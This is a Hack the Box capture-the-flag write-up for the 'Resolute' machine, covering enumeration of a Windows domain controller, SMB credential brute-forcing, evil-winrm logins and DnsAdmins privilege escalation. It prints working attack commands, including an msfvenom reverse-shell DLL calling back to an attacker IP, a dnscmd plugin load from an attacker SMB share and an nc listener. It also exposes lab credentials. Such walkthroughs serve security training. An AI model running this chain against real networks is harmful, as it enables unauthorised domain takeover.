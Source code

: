 +++
title = "Hack the Box: Resolute"
date = 2023-01-29
description = "Hack the Box: Resolute"
tags = [
    "Hack the Box",
    "Write-up"
]
+++

# Resolute

## Enumeration

### Nmap

```
# nmap -Pn --min-rate=10000 -sV -sC resolute.htb -nvv -e tun0 -p- -A -T4

PORT      STATE    SERVICE         REASON      VERSION
2/tcp     filtered compressnet     no-response
53/tcp    open     domain?         syn-ack
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
88/tcp    open     kerberos-sec    syn-ack     Microsoft Windows Kerberos (server time: 2020-05-07 08:32:52Z)
135/tcp   open     msrpc           syn-ack     Microsoft Windows RPC
139/tcp   open     netbios-ssn     syn-ack     Microsoft Windows netbios-ssn
389/tcp   open     ldap            syn-ack     Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
445/tcp   open     microsoft-ds    syn-ack     Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)
464/tcp   open     kpasswd5?       syn-ack
593/tcp   open     ncacn_http      syn-ack     Microsoft Windows RPC over HTTP 1.0
636/tcp   open     tcpwrapped      syn-ack
1082/tcp  filtered amt-esd-prot    no-response
2966/tcp  filtered idp-infotrieve  no-response
3268/tcp  open     ldap            syn-ack     Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
3269/tcp  open     tcpwrapped      syn-ack
5145/tcp  filtered rmonitor_secure no-response
5985/tcp  open     http            syn-ack     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open     mc-nmf          syn-ack     .NET Message Framing
12098/tcp filtered unknown         no-response
22723/tcp filtered unknown         no-response
47001/tcp open     http            syn-ack     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open     msrpc           syn-ack     Microsoft Windows RPC
49665/tcp open     msrpc           syn-ack     Microsoft Windows RPC
49666/tcp open     msrpc           syn-ack     Microsoft Windows RPC
49667/tcp open     msrpc           syn-ack     Microsoft Windows RPC
49671/tcp open     msrpc           syn-ack     Microsoft Windows RPC
49676/tcp open     ncacn_http      syn-ack     Microsoft Windows RPC over HTTP 1.0
49677/tcp open     msrpc           syn-ack     Microsoft Windows RPC
49688/tcp open     msrpc           syn-ack     Microsoft Windows RPC
49709/tcp open     msrpc           syn-ack     Microsoft Windows RPC
53759/tcp open     unknown         syn-ack
61911/tcp filtered unknown         no-response
64832/tcp filtered unknown         no-response
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=5/7%Time=5EB3C544%P=x86_64-pc-linux-gnu%r(DNSVe
SF:rsionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\x
SF:04bind\0\0\x10\0\x03");
Service Info: Host: RESOLUTE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h30m30s, deviation: 4h02m31s, median: 10m28s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 13101/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 52471/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 55070/udp): CLEAN (Timeout)
|   Check 4 (port 45712/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Resolute
|   NetBIOS computer name: RESOLUTE\x00
|   Domain name: megabank.local
|   Forest name: megabank.local
|   FQDN: Resolute.megabank.local
|_  System time: 2020-05-07T01:33:44-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-05-07T08:33:42
|_  start_date: 2020-05-07T06:58:19
```

Judging by the services that are running on this system, it looks like an Active Directory domain controller. Since we don’t have any meaningful access, let’s see if we can find anything interesting from the SMB service. Port 139 and 445 are open, we can try to attack them.

`msf5 > auxiliary/scanner/smb/smb_ms17_010` `msf5 > auxiliary/scanner/smb/smb_version`

- `smbclient -L \\\\@ip\\`
- `smbclient -L \\\\@ip\\<share>$`

From enum4Linux we get a list of users and a password who was into a description:

```
# enum4linux resolute.htb
Domain Name: MEGABANK
Domain Sid: S-1-5-21-1392959593-3013219662-3596683436
```

MEGABANK\Administrator MEGABANK\DefaultAccount MEGABANK\krbtgt MEGABANK\MS02

KaTeX parse error: Undefined control sequence: \RESOLUTE at position 10: MEGABANK\̲R̲E̲S̲O̲L̲U̲T̲E̲

MEGABANK\ryan MEGABANK\marko - Desc: Account created. Password set to Welcome123! MEGABANK\sunita MEGABANK\abigail MEGABANK\marcus MEGABANK\sally MEGABANK\fred MEGABANK\angela MEGABANK\felicia MEGABANK\gustavo MEGABANK\ulf MEGABANK\stevie MEGABANK\claire MEGABANK\paulo MEGABANK\steve MEGABANK\annette MEGABANK\annika MEGABANK\per MEGABANK\claude MEGABANK\melanie MEGABANK\zach MEGABANK\simon MEGABANK\naoki MEGABANK\Guest

```
# sudo ldapdomaindump 10.10.10.169 -u MEGABANK\\melanie -p Welcome123!
```

![f405ab99ddb5a838ea5603bbb169e2c7.png](file:///C:/Users/Robin/.config/joplin-desktop/resources/ab0234a7ea8d4c75bac4935c9033068e.png)

## Foothold

We bruteforce the smb login with the password and the list of users:

```
# msf5 auxiliary(scanner/smb/smb_login) > set USER_FILE ~/Downloads/users.txt
[+] 10.10.10.169:445      - 10.10.10.169:445 - Success: 'MEGABANK\melanie:Welcome123!'
```

We can connect using melanie credentials through evil-winrm because the port 5985 is open:

```
# sudo evil-winrm -i resolute.htb -u melanie -p Welcome123!
# cat user.txt
0c3be45fcfe249796ccbee8d3a978540
```

`Get-ADPrincipalGroupMembership melanie | select name` to get the groups where melanie is in.

## Privilege Escalation

Those doesn’t give anything interesting:

```
# upload winPEAS.exe
# powershell "C:\.....\winPEAS.exe cmd fast"
# watson
# powersploit powerup
```

Reaveal hidden directories and files:

```
# get-childitem -force in C:\
```

And we find a new account, part of DNSDomain group:

```
# get-childitem -force
# C:\PSTranscripts\20191203\PowerShell transcript file
# ryan Serv3r4Admin4cc123!
```

We can open a new winrm session with this account:

```
# sudo evil-winrm -i resolute.htb -u ryan -p Serv3r4Admin4cc123\!
```

`[Environment]::Is64BitOperatingSystem` in order to know the system’s arch.

We can now prepare the payloads, choose one :

```
# msfvenom -p windows/x64/exec cmd='net group "domain admins" melanie /add /domain' --platform windows -f dll > ./dns.dll
or
# msfvenom -p windows/x64/shell_reverse_tcp -a x64 LHOST=10.10.15.77 LPORT=1234 -f dll > rs.dll
```

Then open a SMB share from impacket:

```
# sudo impacket-smbserver -smb2support TMP /tmp
or
# sudo impacket-smbserver -smb2support -debug SHARE /tmp
```

from ryan’s evil winrm sessions:

```
# C:\Windows\System32\dnscmd.exe /config /serverlevelplugindll \\10.10.15.77\tmp\dns.dll
or
# C:\Windows\System32\dnscmd.exe /config /serverlevelplugindll \\10.10.15.77\tmp\rs.dll
```

And then restart the service with:

```
# sc.exe query dns
# sc.exe stop dns
# sc.exe start dns
```

You can now connect into a new evil-winrm session using melanie’s credentials. If you have choosed the second payload you don’t need to, you must start a listener with `nc -lvnp 1234` and wait a shell.
